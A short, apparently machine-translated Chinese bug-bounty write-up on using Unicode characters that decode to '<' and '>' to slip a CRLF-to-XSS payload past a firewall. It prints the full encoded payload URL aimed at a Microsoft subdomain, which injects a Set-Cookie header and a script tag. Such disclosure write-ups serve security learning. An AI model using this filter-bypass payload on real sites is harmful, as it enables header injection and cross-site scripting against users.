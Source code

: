 # ****通过防火墙旁路了解新的有效负载****

****我创建了以下有效载荷来获取 XSS****

****![](img/7f4bffcff637f3e7b7f3e4980c99c9fc.png)****

****现在，我将正常的有效载荷编码如下，以绕过防火墙****

```
**“<” as 嘼“>” as 嘾**
```

****![](img/1d93581170d572c97051390f59313646.png)****

****所以我从 CRLF 到 XSS 的有效载荷是****

****此外，我执行了 URL 编码以避免错误，我的最终有效负载是:-****

```
**#ENCODING“<” --> 嘼 --> %E5%98%BC“>” --> 嘾 --> %E5%98%BE[https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE](https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE)**
```

****插入有效载荷后，我得到了最漂亮的结果****

****我正在分享一些美丽的截图****
